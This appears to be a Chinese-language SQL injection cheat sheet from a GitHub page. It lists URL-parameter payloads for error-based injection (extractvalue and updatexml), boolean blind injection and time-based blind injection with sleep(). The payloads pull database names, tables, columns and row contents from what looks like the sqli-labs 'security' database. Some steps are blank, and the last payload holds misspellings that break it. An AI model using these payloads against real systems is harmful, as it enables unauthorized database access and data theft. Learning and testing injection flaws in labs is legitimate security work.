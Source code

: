   --dump</br>
### 报错注入：</br>
报错注入语句(本查询结果基于数据库security下的表) （updatexml/ extractvalue）</br>
1#查询数据库名字（用户user()；版本version()）</br>
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23</br>
2#查询数据库有多少个表</br>
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%23</br>
3#查询数据库的表名，limit后面第一个数字表示第几个表</br>
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23</br>
4#查询列名，limit后数字表示第几列</br>
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23</br>
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23</br>
5#查询表里面某列的内容</br>
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23</br>          
1#查询数据库名字，数据库名字为security（用户user()；版本version()）</br>
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23    </br>            
2#查询数据库有多少个表</br>
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23     </br>   
3#查询数据库的表名，limit后第一个数字表示第几个表</br>
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23    </br>                        
4#查询列名，limit后数字表示第几列</br>
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23  </br>
5#查询表里面某列的内容</br>
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23</br>
### 布尔盲注：</br>
1#获得数据库名长度为8</br>
?id=1' and (length(database())=8)%23           #有回显</br>
2#获得数据库名</br>
?id=1' and ascii(substr(database(),1,1))<100 %23             #无回显</br>
?id=1' and ascii(substr(database(),1,1))=115 %23             #有回显</br>
3#获得数据库表名个数</br>
?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4%23         #有回显</br>
4#获得数据库表名长度</br>
?id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6%23  </br>
5#获得数据库表名</br>
?id=1' and ascii((substr ((select table_name from information_schema.tables where table_schema=database() limit 0,1),0,1)))=106%23</br>
6#获取列名</br>
 </br>
7#获得数据            </br>              
 </br>
### 时间盲注：</br>
1#获得数据库名长度</br>
?id=1' and if((length(database())>5),sleep(5),1)%23        #有时间延迟，说明判断正确</br>
?id=1' and if((length(database())>9),sleep(5),1)%23        #无时间延迟，说明判断错误</br>
?id=1' and if((length(database())>5),1,sleep(5))%23        #无时间延迟，说明判断正确</br>
2#获得数据库名</br>
?id=1' and if((ascii(substr(database(),1,1))>100,sleep(5),1))%23                 #有无回显</br>
3#获得表名（同理先获取长度）</br>
?id=1' and if((asscii(substr((select table_name from information_schame.tables where table_schame=database() limit 0,1),1,1)))>100,sleep(5),1)            #有无回显</br>